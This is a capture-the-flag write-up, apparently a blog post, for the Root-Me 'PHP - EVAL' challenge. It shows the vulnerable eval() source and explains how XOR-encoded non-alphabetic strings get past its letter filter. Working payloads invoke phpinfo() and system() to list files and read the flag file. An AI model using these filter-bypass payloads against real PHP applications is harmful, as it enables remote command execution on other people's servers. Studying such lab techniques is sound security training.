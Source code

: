 ```yaml
---
title: "PHP - EVAL Rootme"
date: 2024-04-17
categories: [CHALLENGES, PHP - EVAL]
tags: [CHALLENGES, CTF] 
---
```



Hello,  In this Writeup, we will Explain methods for executing non-alphabetical PHP code to bypass PHP filters in [PHP - EVAL](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Eval) challenge.

Firstly, we will analyze the source code of the challenge.
```
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```
The PHP script first checks if a POST parameter named  `input`  is present. If the input lacks letters or backticks, it's evaluated as PHP code using eval(), with the result printed on the screen. However, if letters or backticks are detected, it warns of "Dangerous code."

After some Reasearch on google, I found a way to bypass this filter which is `bypass using Non alphabetical char encoding.` Let's Discuss and we can use [onlinegdb](https://www.onlinegdb.com/) to test and run php code easily and faster. In php we can use XOR operator between characters not only numbers to produce another character. 

![img_screenshot](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/c1b4322b-f443-47b2-8b02-fab5c3e1f748)

So, here's the idea of our attack, what if we can reproduce an alphabetical char from  `xoring two non alphabetical chars.`  How can we do that ? 

The XOR operator works like this: When you XOR any two numbers, it produces a result. If you then XOR this result with one of the original numbers, you'll get the other original number. 

We can take a Demo form the following python test on python Interpreter. We can choose character like  `s`  that we want to produce it using XOR operator of two unkown character.

Steps of what we can do: 

1) Getting ASCII decimal of the letter  `s`  which is 115 using ord() function in python.

2) Selecting a random non-alphabetical-char like  `@`  and getting an ASCII decimal of this char which is 64.

3) XORING this two decimal numbers and convert the result into char using chr() in python.

4) Checking if the char is alphabetical char or not and the goal is to be non-alphabetical-char to bypass the filter.

5) Finally, xoring the random non-alphabetical-char and the number resulted from xor operation will give us the letter we need to need.

![img_screenshot1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/734892cd-9efc-4dd0-b1c7-ea3e436aadb7)

we can now try this small payload in our challenge website:  `"@"^"3"`

![img_screenshot2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/66e4baa4-2430-46c6-a9e2-5ffd554a6857)

Nice, we can now automate this process using python, I write simple tool to automate this task which 
is [php-non-alphabetical-Encoder](https://github.com/0XMohomiester/PHP-Non-Alphabetical-Encoder.git)

we can now use it to generate `phpinfo` word to execute `phpinfo()` in the server.

```
python3 php-non-alpha-encoder.py phpinfo
("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@")
```
we can we make a php to call this as php function?
in php, If we declare `$__` as variable ad store the generted string from the tool in it and call it as `$__();` it will be executed as php function we can use it as: 
```
$__ = ("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@");
$__();
```

![img_screenshot3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/36cbf8b5-d666-4f00-8797-3c03e61e01c5)

we can use payload like this:  `system("ls -la")` to run system commands

```
$_1 = (","^"@").("("^"[");
$_2 = "-"; 
$_3 = (","^"@").("!"^"@"); 
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");  
$__($_1 . " " . $_2 . $_3);
```

Goood, Command executed and flag is inside `.passwd` file. 

![img_screenshot4](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/4555d2f6-6ab0-472d-9f54-552cfa6a62ff)


We can now generate payload like : `system("cat .passwd")` to get the flag.

```
$_1 = ("#"^"@").("!"^"@").(")"^"]");
$_2 = ("+"^"[").("!"^"@").("("^"[").("("^"[").("("^"_").("$"^"@");
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");
$__($_1 . " " . "." . $_2);
```
